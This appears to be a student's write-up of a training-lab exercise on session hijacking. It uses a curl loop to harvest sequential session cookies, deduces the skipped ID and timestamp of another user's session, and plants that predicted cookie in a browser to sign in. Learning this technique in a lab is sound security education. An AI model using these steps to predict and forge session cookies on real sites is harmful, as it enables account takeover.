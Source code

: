 ### Task 0: 
Added the ip address and url to /etc/hosts file
Run the open vpn command and leave it running
Access the site at: "http://web0x01.hbtn/a1/hijack_session"

Check the cookie value in dev tools. Take note of the cookie value. Clear cookies from history and refresh. Take note of the new cookie value. Do this multiple times. 
We can see that the value is increasing but manually it is to slow to see a pattern.

Use this command to send a request to the website  multiple times:
for i in {1..20}; do curl -s -I http://web0x01.hbtn/a1/hijack_session/ | awk '/hijack_session/ {print $2}'; done

Below are the results:

hijack_session=875dcb30-aac1-48da-af5-4569673-17253709219;
hijack_session=875dcb30-aac1-48da-af5-4569675-17253709222;
hijack_session=875dcb30-aac1-48da-af5-4569676-17253709224;
hijack_session=875dcb30-aac1-48da-af5-4569677-17253709226;
hijack_session=875dcb30-aac1-48da-af5-4569678-17253709228;
hijack_session=875dcb30-aac1-48da-af5-4569679-17253709230;
hijack_session=875dcb30-aac1-48da-af5-4569680-17253709232;
hijack_session=875dcb30-aac1-48da-af5-4569681-17253709233;
hijack_session=875dcb30-aac1-48da-af5-4569682-17253709235;
hijack_session=875dcb30-aac1-48da-af5-4569683-17253709237;
hijack_session=875dcb30-aac1-48da-af5-4569684-17253709239; notice that the 4569685 should be next but it is missing. 
hijack_session=875dcb30-aac1-48da-af5-4569686-17253709242;
hijack_session=875dcb30-aac1-48da-af5-4569687-17253709244;
hijack_session=875dcb30-aac1-48da-af5-4569688-17253709246;
hijack_session=875dcb30-aac1-48da-af5-4569689-17253709248;
hijack_session=875dcb30-aac1-48da-af5-4569690-17253709250;
hijack_session=875dcb30-aac1-48da-af5-4569691-17253709251;
hijack_session=875dcb30-aac1-48da-af5-4569692-17253709253;
hijack_session=875dcb30-aac1-48da-af5-4569693-17253709255;
hijack_session=875dcb30-aac1-48da-af5-4569694-17253709257;

The last part of the value (17253709224, etc) is a timestamp. 

This value (4569685, etc) is a some kind of session identifier for each connection to the website. 

You can work out the someone else connected to the website that between these two cookies:

hijack_session=875dcb30-aac1-48da-af5-4569684-17253709239;
hijack_session=875dcb30-aac1-48da-af5-4569686-17253709242;

The cookie they used is one of these two: session incremented and then time incremented.

875dcb30-aac1-48da-af5-4569685-17253709240
875dcb30-aac1-48da-af5-4569685-17253709241

Add the cookie the browser, add an any email and password to fields. Click on sign in. The email should be properly formatted (email@email.com)

